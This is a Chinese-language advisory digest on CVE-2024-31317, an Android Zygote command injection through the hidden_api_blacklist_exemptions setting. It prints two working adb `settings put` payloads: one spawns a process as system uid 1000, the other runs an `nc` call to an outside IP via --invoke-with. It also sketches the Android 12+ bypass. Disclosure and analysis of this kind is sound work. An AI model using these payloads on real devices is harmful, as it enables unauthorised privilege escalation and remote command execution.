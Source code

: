 ## CVE-2024-31317 - Android Zygote Deserialization/Command Injection

**漏洞编号:** CVE-2024-31317

**漏洞类型:** 权限提升 (Elevation of Privilege)

**影响应用:** Android

**危害等级:** 高危，可实现本地权限提升，以任意应用身份执行代码

**影响版本:** Android 12, 12L, 13, 14

**利用条件:** 需要 `WRITE_SECURE_SETTINGS` 权限。通常可通过 ADB 或其他漏洞获取。低版本Android可以直接通过命令注入，高版本需要Bypass方案。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-31317 允许攻击者利用不安全的反序列化或命令注入，在 Zygote 进程中以任意应用身份执行代码。该漏洞存在于 `ZygoteProcess.java` 的多个函数中，攻击者可以通过 `WRITE_SECURE_SETTINGS` 权限设置恶意的 `hidden_api_blacklist_exemptions` 值，从而注入恶意参数。

**利用方式：**

1.  **获取 `WRITE_SECURE_SETTINGS` 权限：** 这是利用该漏洞的前提条件。可以通过 ADB (如果设备已启用 USB 调试) 或利用其他漏洞来获取此权限。
2.  **构造恶意 `hidden_api_blacklist_exemptions` 值：** 攻击者需要构造包含恶意命令的字符串，并使用 `settings put global hidden_api_blacklist_exemptions` 命令将其写入系统设置。
3.  **触发 Zygote 进程：**  写入设置后，当系统尝试使用被篡改的 `hidden_api_blacklist_exemptions` 时，Zygote 进程会执行注入的恶意命令。

**低版本 (Android 11 及以下) 利用：**
可以直接通过换行符进行命令注入。
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(\n8\n--runtime-args\n--setuid=1000\n--setgid=1000\n--nice-name=com.android.settings\n--app-data-dir=/data/user/0/com.android.settings\n--package-name=com.android.settings\n--seinfo=platform:system_app:targetSdkVersion=29:complete\nandroid.app.ActivityThread"
```
可以使用`invoke-with`参数执行命令，但需要开启 debug 模式，可以通过`runtime-flags`参数设置所有debug属性。
```
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(\n7\n--runtime-args\n--setuid=1000\n--setgid=1000\n--runtime-flags=43267\n--invoke-with\nnc 192.168.0.112 9981;\n--seinfo=platform:system_app:targetSdkVersion=29:complete"
```

**高版本 (Android 12 及以上) 利用：**
由于 Google 在 Android 12 中引入了 C++ 命令解析器，简单的命令注入不再有效。需要使用更复杂的绕过方法，例如，在注入的恶意命令之前填充大量逗号以增加时间间隔，从而绕过 `NativeCommandBuffer` 的限制。

**有效性评估：**
根据提供的漏洞信息和利用代码，该漏洞的 PoC 代码应该是有效的。多个搜索引擎结果都提到了该漏洞的利用，并提供了相关的分析和参考链接。提供的利用代码也包含了低版本和高版本的利用方法，并给出了详细的步骤和示例。

**投毒风险评估：**
该仓库主要包含漏洞利用的说明文档和一些构建文件。虽然无法完全排除投毒的可能性，但从目前的代码来看，风险较低。风险点可能存在于利用脚本中，例如执行 nc 命令，虽然是一个正常的网络工具，但是存在被利用的风险，例如连接到恶意的服务器。gradle文件风险较小，主要是构建配置，但理论上存在远程依赖引入恶意代码的可能性。综合评估，投毒风险约为 10%。

**项目地址:** [fuhei/CVE-2024-31317](https://github.com/fuhei/CVE-2024-31317)

**漏洞详情:** [CVE-2024-31317](https://nvd.nist.gov/vuln/detail/CVE-2024-31317)